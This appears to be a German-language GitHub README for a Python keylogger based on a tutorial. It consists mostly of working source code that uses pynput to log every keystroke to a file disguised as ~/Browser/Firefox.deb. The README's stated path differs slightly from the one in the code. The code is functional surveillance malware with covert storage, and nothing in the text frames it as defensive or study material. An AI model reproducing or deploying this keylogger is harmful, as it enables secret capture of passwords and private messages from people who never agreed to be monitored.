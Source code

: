 ## keylogger
### Requirements
- pynput muss installiert sein: `pip3 install pynput`

### About
- Von diesem [Link](https://www.askpython.com/python/examples/python-keylogger)
- Erstellt im Pfad /Users/Username/firefox.deb in welcher alle Ttastenschläge geloggt werden

### Code
### Import / Shebang
```
#!/usr/bin/env python

###########################
from pathlib import Path
from logging.config import listen
from pynput.keyboard import Key, Listener
import logging
import platform
import os
###########################
```

### Keylogger ausführen
```
# Fragt OS ab und gibt es aus
OS = platform.system()
print ("Current OS :",OS)
# Setzt Pfad zum Userhome und gibt Pfad aus
home = str(Path.home())
print (home)

# homepfad + /Browser
tempfolderpath = home + '/Browser'
print (tempfolderpath)

try:
# Erstellt Pfad für Keylogger-Daten
    os.mkdir(tempfolderpath)
except OSError as error:
    print(error)

# Pfad in welcher der Keylogger die Daten logget
keylogfile = tempfolderpath +'/Firefox.deb'
print (keylogfile)

# Definition des Logging Levels und Dateiname
logging.basicConfig(filename=(keylogfile), level=logging.DEBUG, format=" %(asctime)s - %(message)s")

# Wenn Taste Gedrueckt wird, wird in das Log die entsprechende Taste geschrieben
def on_press(key):
    logging.info(str(key))

# Hört auf die on_press funktion
with Listener(on_press=on_press) as listener :
# .join -> Wait until the thread terminates.
    listener.join()
```
